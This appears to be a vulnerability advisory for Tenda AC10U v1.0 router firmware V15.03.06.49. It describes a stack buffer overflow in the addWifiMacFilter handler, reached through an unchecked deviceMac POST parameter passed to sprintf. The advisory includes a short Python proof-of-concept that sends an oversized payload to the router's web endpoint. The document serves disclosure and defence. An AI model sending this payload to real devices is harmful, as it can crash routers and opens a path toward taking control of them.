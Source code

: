 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3795.html

## Affected version

AC10U v1.0 Firmware V15.03.06.49

## Vulnerability details

The Tenda AC10U v1.0 V15.03.06.49 firmware has a stack overflow vulnerability in the `addWifiMacFilter` function. The `device_mac` variable receives the `deviceMac` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `deviceMac` can trigger this security vulnerability.

![image-20240309185842004](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309185842004.png)

![image-20240309185809016](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309185809016.png)

![image-20240309185820678](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309185820678.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/addWifiMacFilter"
payload = b"a"*1000

data = {"deviceMac": payload, "deviceId":1}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240309191223140](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309191223140.png)